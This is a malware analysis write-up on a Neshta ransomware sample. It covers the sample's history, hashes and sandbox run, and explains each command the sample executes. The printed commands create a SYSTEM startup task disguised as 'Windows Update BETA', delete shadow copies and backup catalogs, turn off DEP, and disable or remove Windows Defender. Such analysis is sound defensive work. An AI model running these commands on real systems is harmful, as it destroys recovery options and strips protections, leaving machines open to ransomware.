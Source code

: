 # Neshta Ransomware family

* [https://app.any.run/tasks/990b6a36-241d-4998-8272-ba6c273aa15c/](https://app.any.run/tasks/990b6a36-241d-4998-8272-ba6c273aa15c/)

## History

The ransomware Neshta was first discovered in 2007. It was designed to encrypt files on infected computer systems and demand a ransom in exchange for the decryption key. Neshta primarily spread through malicious emails, compromised software downloads, and other infection methods. Since its discovery, it has been one of many examples of ransomware that have caused disruptions and computer security issues worldwide.

## Sample Information

| Information       | Value                                         |
|-------------------|-----------------------------------------------|
| Analysis date     | December 17, 2023 at 07:20:45                 |
| OS                | Windows 10 Professional (build: 19044, 64 bit)|
| Tags              | ransomware                                    |
| File info         | PE32 executable (GUI) Intel 80386, for MS Windows |
| MD5               | BD3421CDFEA65D7037533121A4B82AEA              |
| SHA256            | 0E5C298EEA81721D30202057A8F1B6EEE18A1BFBB102248F1E862A96128097B9 |


## Setup

### Replication

![create-diectory](/images/neshta/neshta-01.png)
![create-diectory](/images/neshta/neshta-02.png)

### Create Tasl
The command you've provided is used to create a scheduled task in Windows. Here's a breakdown of its components:

```
cmd "/c SCHTASKS.exe /Create /RU \"NT AUTHORITY\\SYSTEM\" /sc onstart /TN \"Windows Update BETA\" /TR \"C:\\Users\\Admin\\AppData\\Local\\Temp\\3582-490\\Windows Servers Runtime.exe\" /F"
```

-   `cmd "/c`: This initiates the execution of the command that follows it. `/c` tells the command prompt to execute the command and then terminate.
    
-   `SCHTASKS.exe /Create`: This command is used to create a scheduled task. `SCHTASKS` is the command-line utility for managing Windows scheduled tasks.
    
-   `/RU "NT AUTHORITY\\SYSTEM"`: This specifies the user account under which the scheduled task will run. In this case, it's set to run under the `SYSTEM` account, which has high-level privileges on the local system.
    
-   `/sc onstart`: This sets the schedule type for the task. `onstart` means the task will run each time the computer starts.
    
-   `/TN "Windows Update BETA"`: This sets the name of the task to "Windows Update BETA".
    
-   `/TR "C:\\Users\\Admin\\AppData\\Local\\Temp\\3582-490\\Windows Servers Runtime.exe"`: This is the action to be performed by the scheduled task. Here, it's set to execute a file named `Windows Servers Runtime.exe` located in a temporary folder within the Admin user's AppData directory.
    
-   `/F`: This forces the task to be created and overwrites any existing task with the same name.
    

**Implications:**

-   The use of the `SYSTEM` account suggests that the task will have extensive privileges on the computer.
-   The executable is located in a temporary folder and not in a typical program directory, which could be suspicious.
-   Naming the task "Windows Update BETA" might be an attempt to disguise its true purpose.

Given these factors, especially the location of the executable and the high privileges, this command could potentially be used for malicious purposes, such as running malware at system startup. It's important to be cautious with such commands, and they should only be used if you trust the source of the executable and understand the command's purpose.

### Disable some moyens de protections

cmd.exe "/c vssadmin.exe delete shadows /all /quiet&&wbadmin delete catalog -quiet && bcdedit.exe /set {current} nx AlwaysOff && wmic SHADOWCOPY DELETE"

cmd.exe "/c powershell -inputformat none -outputformat none -NonInteractive -Command Add-MpPreference -ExclusionPath \"%s\" "

cmd.exe "/c powershell -inputformat none -outputformat none -NonInteractive -Command Remove-WindowsFeature Windows-Defender&&powershell -inputformat none -outputformat none -NonInteractive -Command Windows-Defender-GUI&&powershell -inputformat none -outputformat none -NonInteractive -Command New-ItemProperty -Path \"HKLM:SOFTWAREPoliciesMicrosoftWindows Defender\" -Name DisableAntiSpyware -Value 1 -PropertyType DWORD -Force "

cmd.exe "/c powershell -inputformat none -outputformat none -NonInteractive -Command Get-Service WinDefend | Stop-Service -PassThru | Set-Service -StartupType Disabled&&powershell -inputformat none -outputformat none -NonInteractive -Command Set-MpPreference -DisableRealtimeMonitoring $true "


1.  **vssadmin, wbadmin, bcdedit, and wmic command**: `cmd.exe "/c vssadmin.exe delete shadows /all /quiet&&wbadmin delete catalog -quiet && bcdedit.exe /set {current} nx AlwaysOff && wmic SHADOWCOPY DELETE"`
    
    -   `vssadmin.exe delete shadows /all /quiet`: Deletes all system restore points (Shadow Copies) without displaying messages.
    -   `wbadmin delete catalog -quiet`: Deletes the backup catalog, which can prevent previous backups from being restored.
    -   `bcdedit.exe /set {current} nx AlwaysOff`: Disables Data Execution Prevention (DEP) for the current system, potentially making the system more vulnerable to attacks.
    -   `wmic SHADOWCOPY DELETE`: Also deletes shadow copies, another form of restore points.
2.  **Add-MpPreference command (PowerShell)**: `cmd.exe "/c powershell -inputformat none -outputformat none -NonInteractive -Command Add-MpPreference -ExclusionPath \"%s\" "`
    
    -   Adds an exclusion in Windows Defender for a specific path (replaced by `%s`), meaning files in this path will not be scanned by Windows Defender.
3.  **Remove-WindowsFeature, New-ItemProperty commands (PowerShell)**: `cmd.exe "/c powershell -inputformat none -outputformat none -NonInteractive -Command Remove-WindowsFeature Windows-Defender&&powershell -inputformat none -outputformat none -NonInteractive -Command Windows-Defender-GUI&&powershell -inputformat none -outputformat none -NonInteractive -Command New-ItemProperty -Path \"HKLM:SOFTWAREPoliciesMicrosoftWindows Defender\" -Name DisableAntiSpyware -Value 1 -PropertyType DWORD -Force "`
    
    -   Disables and removes Windows Defender (Windows' built-in antivirus) along with its graphical interface.
    -   Modifies the registry to disable Windows Defender's antispyware feature.
4.  **Get-Service, Stop-Service, Set-Service, Set-MpPreference commands (PowerShell)**: `cmd.exe "/c powershell -inputformat none -outputformat none -NonInteractive -Command Get-Service WinDefend | Stop-Service -PassThru | Set-Service -StartupType Disabled&&powershell -inputformat none -outputformat none -NonInteractive -Command Set-MpPreference -DisableRealtimeMonitoring $true "`
    
    -   Stops the Windows Defender service (WinDefend), disables it at startup, and turns off Windows Defender's real-time monitoring.